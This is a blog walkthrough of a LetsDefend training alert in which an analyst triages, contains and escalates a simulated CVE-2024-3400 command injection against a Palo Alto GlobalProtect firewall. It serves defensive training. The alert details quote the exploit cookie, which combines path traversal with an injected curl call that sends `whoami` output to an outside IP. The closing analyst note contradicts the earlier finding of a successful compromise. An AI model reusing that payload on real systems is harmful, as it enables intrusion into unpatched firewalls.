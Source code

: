 ```yaml
---
title: "SOC274 - PAN-OS Command Injection CVE-2024-3400 Walkthrough"
description: "LetsDefend walkthrough of a Palo Alto Networks CVE-2024-3400 command injection exploitation."
pubDate: 'Jun 11 2025'
heroImage: "../../assets/letsdefend-social.png"
---
```

<style>
  article img {
    max-width: 100%;
    width: auto;
    height: auto;
    border-radius: 12px;
    box-shadow: var(--box-shadow);
    margin: 1em auto;
    display: block;
  }
</style>

<article>

### Event Details

**Event ID:** 249

**Event Time:** Apr 18, 2024, 03:09 AM

**Rule:** SOC274 - Palo Alto Networks PAN-OS Command Injection Vulnerability Exploitation (CVE-2024-3400)

**Level:** Security Analyst

**Hostname:** PA-Firewall-01

**Destination IP Address:** 172.16.17.139

**Source IP Address:** 144.172.79.92

**HTTP Request Method:** POST

**Requested URL:** 172.16.17.139/global-protect/login.esp

**Cookie:** SESSID=./../../../opt/panlogs/tmp/device\_telemetry/hour/aaa\`curl\${IFS}144.172.79.92:4444?user=\$(whoami)

**Alert Trigger Reason:** Characteristics exploit pattern detected on cookie and request, indicative of CVE-2024-3400 exploitation.

**Device Action:** Allowed

### Getting Started

To get started with this alert we will start by taking a look at the raw log from the **Log Management** page.

![Pasted image 20250611141555.png](../../assets/Pasted-image-20250611141555.png)

After reviewing the raw log data we can move on to the **Endpoint Security** page. We can quickly see there's a suspicious `update.py` that ran at the same time as the alert in the processes tab. The event involving `update.py` also includes an image hash that we can look into.

![Pasted image 20250611141848.png](../../assets/Pasted-image-20250611141848.png)

When we search for the image hash in VirusTotal, we can see that the file is indeed malicious.

![Pasted image 20250611142124.png](../../assets/Pasted-image-20250611142124.png)

In the network action tab we confirm that there was an outbound request to the malicious IP (144.172.79.92), so we will take action and contain `PA-Firewall-01`. We can see that this IP is malicious by looking at the Threat Intel tab.

![Pasted image 20250611143938.png](../../assets/Pasted-image-20250611143938.png)  
![Pasted image 20250611144125.png](../../assets/Pasted-image-20250611144125.png)  
![Pasted image 20250611144012.png](../../assets/Pasted-image-20250611144012.png)

If we do a deeper dive on the malicious IP address, we can see that 10/94 security vendors have marked it as malicious in VirusTotal.

![Pasted image 20250611144346.png](../../assets/Pasted-image-20250611144346.png)

With a Whois lookup, we can see that the IP is tied to RouterHosting LLC and FranTech Solutions.

**FranTech Solutions**: 144.172.64.0 - 144.172.127.255  
**RouterHosting LLC**: 144.172.79.0 - 144.172.79.255 
 
Both are known bulletproof hosting providers often used for C2 servers, malware delivery, and proxy/VPN evasion.

We then began executing the SOC274 playbook.

### Understand Why the Alert Was Triggered

* We reviewed the rule name to understand this is a PAN-OS command injection.  
* The traffic is from an external IP to the firewall’s GlobalProtect login page using HTTP POST.

### Collect Data

* We checked ownership of the source IP in Whois.  
* It belongs to a known bulletproof hosting provider.  
* We validated the IP’s reputation in VirusTotal and other sources.

### Examine HTTP Traffic

* We identified the payload in the cookie header, which used command injection syntax to invoke a remote curl request.  
* This confirms exploitation of CVE-2024-3400.

### What Is the Attack Type?

* We selected **Command Injection** due to the command syntax in the cookie.

![Pasted image 20250611150829.png](../../assets/Pasted-image-20250611150829.png)

### Check If It Is a Planned Test

* We checked email logs for keywords like `test`, `pentest`, or any scheduled tests.  
* No results found.  
* We selected **Not Planned**.

![Pasted image 20250611151027.png](../../assets/Pasted-image-20250611151027.png)  
![Pasted image 20250611151354.png](../../assets/Pasted-image-20250611151354.png)

### What Is the Direction of Traffic?

* Source: 144.172.79.92 (external)  
* Destination: 172.16.17.139 (internal)  
* Selected: **144.172.79.92 -> 172.16.17.139**

### Was the Attack Successful?

* Yes, the firewall initiated an outbound C2 connection to the attacker’s IP.  
* We marked this as a successful compromise.

### Containment

* We isolated `PA-Firewall-01` from the network.

![Pasted image 20250611155530.png](../../assets/Pasted-image-20250611155530.png)

### Artifacts

* We documented the malicious IP.  
* No emails, URLs, or MD5 hashes were deemed actionable.

![Pasted image 20250611161944.png](../../assets/Pasted-image-20250611161944.png)

### Tier 2 Escalation

* Due to confirmed exploitation and outbound connection, we escalated to Tier 2.

![Pasted image 20250611162348.png](../../assets/Pasted-image-20250611162348.png)

### Analyst Note

"The alert was triggered by a command injection attempt targeting the Palo Alto firewall’s GlobalProtect login interface, exploiting CVE-2024-3400 via malicious cookie payload. The source IP belongs to a bulletproof hosting provider with a poor reputation, indicating a likely external attacker. Outbound traffic analysis shows no evidence of successful lateral movement or compromise within the internal network. Based on current evidence, the attack did not succeed in gaining internal access. Recommend continued monitoring and reviewing firewall patch status."

![Pasted image 20250611162932.png](../../assets/Pasted-image-20250611162932.png)

---

And that's a wrap! Thanks for following along with my walkthrough of the SOC274 - Palo Alto Networks PAN-OS Command Injection Vulnerability Exploitation (CVE-2024-3400) investigation.

I plan on posting more walkthroughs related to LetsDefend and Hack The Box with a goal of at least one post per week.
</article>
